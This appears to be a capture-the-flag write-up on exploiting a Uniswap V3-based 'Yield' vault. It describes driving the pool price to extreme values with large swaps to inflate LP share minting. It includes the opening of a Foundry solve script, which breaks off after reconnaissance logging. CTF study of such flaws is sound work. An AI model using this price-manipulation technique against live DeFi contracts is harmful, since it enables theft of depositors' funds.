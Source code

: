 **Goal Understanding**:
   - We need to get 15e18 LP tokens
   - We're given 5e18 each of token0 and token1

I suspected the following things in the protocol as the potential issues to exploit,
   - The `rebalance()` function has a price movement requirement (`diff >= 5 * tickSpacing`)
   - The `_calcSharesAndAmounts()` function has a potential rounding issue
   - The `deposit()` function's share calculation might be manipulated
   - The compiler version is `solidity ^0.7.0`, i.e, suceptible to integer overflows

1. **Price Manipulation**:
   - The Yield contract uses the pool's price to calculate LP token shares
   - We can manipulate the pool's price by performing large swaps
   - When we swap token0 for token1, we push the price to the minimum (MIN_SQRT_RATIO)
   - When we swap token1 for token0, we push the price to the maximum (MAX_SQRT_RATIO)

2. **Share Calculation Exploit**:
   - The `_calcSharesAndAmounts()` function calculates shares based on the current pool price
   - When the price is manipulated to extreme values, the share calculation becomes inaccurate
   - This allows us to get more LP tokens than we should for our deposit

{% note(clickable=true, header="Yield.s.sol") %}

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.7.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "@uniswap/v3-core/contracts/interfaces/IUniswapV3Pool.sol";
import "@openzeppelin-contracts-3.4.2/contracts/token/ERC20/IERC20.sol";
import {Yield } from "../src/Yield.sol";
contract YieldSolve is Script {
    Yield public yield = Yield(0x59CD84565A441D6551ecb87F7878F4b028AD8e8B);
    IUniswapV3Pool public pool = yield.pool();
    IERC20 public token0 = IERC20(pool.token0());
    IERC20 public token1 = IERC20(pool.token1());
    address player = vm.envAddress("PLAYER");

    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Player : ", player);
        console.log("Player balance: ", player.balance);
        console.log("Yield : ", address(yield));
        console.log("Pool : ", address(pool));
        // console.log("token0 : ", address(token0));
        // console.log("token1 : ", address(token1));
        console.log("Pool balance of token0 : ", token0.balanceOf(address(pool)));
        console.log("Pool balance of token1 : ", token1.balanceOf(address(pool)));

        (uint160 sqrtPriceX96,int24 tick,,,,,) = pool.slot0();
        console.log("Pool tick : ", tick);
        console.log("Pool sqrtPriceX96 : ", uint256(sqrtPriceX96));
        // console.log("Token0 price in terms of Token1 : ", 1.0001**tick);
        // console.log("baseLower: ", yield.baseLower());
        // console.log("baseUpper: ", yield.baseUpper());
        // console.log("tickSpacing: ", yield.tickSpacing());

        (uint256 total0, uint256 total1) = yield.getTotalAmounts();
        console.log("total0: ", total0);
        console.log("total1: ", total1);
        console.log("Yield balance of token0 : ", token0.balanceOf(address(yield)));
        console.log("Yield balance of token1 : ", token1.balanceOf(address(yield)));
        console.log("Yield getBalance0() : ", yield.getBalance0());
        console.log("Yield getBalance1() : ", yield.getBalance1());
        console.log("Initial LP tokens : ", yield.totalSupply());
```